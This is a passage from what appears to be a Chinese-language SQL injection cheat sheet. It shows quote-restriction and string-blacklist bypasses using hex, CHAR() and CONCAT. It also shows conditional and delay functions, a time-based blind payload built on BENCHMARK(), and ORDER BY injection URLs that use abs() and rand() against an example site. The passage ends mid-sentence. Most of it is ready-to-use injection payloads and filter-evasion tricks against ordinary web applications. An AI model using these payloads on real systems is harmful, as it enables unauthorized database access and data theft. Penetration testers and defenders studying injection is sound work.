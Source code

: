 ### 绕过引号限制

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

### 绕过字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 时，任何个参数为 null，将返回 null，推荐使用 `CONCAT_WS()`。`CONCAT_WS()`函数第一个参数表示用哪个字符间隔所查询的结果。

### 条件语句

`CASE`, `IF()`, `IFNULL()`, `NULLIF()`.

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延时函数

`SLEEP()`, `BENCHMARK()`.

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by 后的注入

`order by` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 `order` 或者 `order by` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：`http://www.test.com/list.php?order=vote`

根据 `vote` 字段排序。找到投票数最大的票数 `num` 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 `rand` 函数：

```
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
```

以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：
